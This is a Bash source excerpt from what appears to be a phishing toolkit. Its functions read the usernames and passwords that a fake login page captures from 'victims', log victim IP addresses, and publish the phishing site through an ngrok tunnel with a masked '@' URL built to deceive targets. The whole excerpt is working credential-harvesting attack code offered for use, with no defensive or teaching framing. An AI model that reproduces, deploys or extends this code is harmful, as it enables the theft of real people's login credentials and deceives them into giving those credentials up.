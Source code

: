 ## Get credentials
capture_creds() {
	ACCOUNT=$(grep -o 'Username:.*' .server/www/usernames.txt | cut -d " " -f2)
	PASSWORD=$(grep -o 'Pass:.*' .server/www/usernames.txt | cut -d ":" -f2)
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Account : ${BLUE}$ACCOUNT"
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Password : ${BLUE}$PASSWORD"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}usernames.dat"
	cat .server/www/usernames.txt >> usernames.dat
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Next Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit. "
}

## Print data
capture_data() {
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit..."
	while true; do
		if [[ -e ".server/www/ip.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Victim IP Found !"
			capture_ip
			rm -rf .server/www/ip.txt
		fi
		sleep 0.75
		if [[ -e ".server/www/usernames.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Login info Found !!"
			capture_creds
			rm -rf .server/www/usernames.txt
		fi
		sleep 0.75
	done
}

## Start ngrok
start_ngrok() {
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Initializing... ${GREEN}( ${CYAN}http://$HOST:$PORT ${GREEN})"
	{ sleep 1; setup_site; }
	echo -ne "\n\n${RED}[${WHITE}-${RED}]${GREEN} Launching Ngrok..."

    if [[ `command -v termux-chroot` ]]; then
        sleep 2 && termux-chroot ./.server/ngrok http "$HOST":"$PORT" > /dev/null 2>&1 & # Thanks to Mustakim Ahmed (https://github.com/BDhackers009)
    else
        sleep 2 && ./.server/ngrok http "$HOST":"$PORT" > /dev/null 2>&1 &
    fi

	{ sleep 8; clear; banner_small; }
	ngrok_url=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
	ngrok_url1=${ngrok_url#https://}
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} URL 1 : ${GREEN}$ngrok_url"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} URL 2 : ${GREEN}$mask@$ngrok_url1"
	capture_data
}
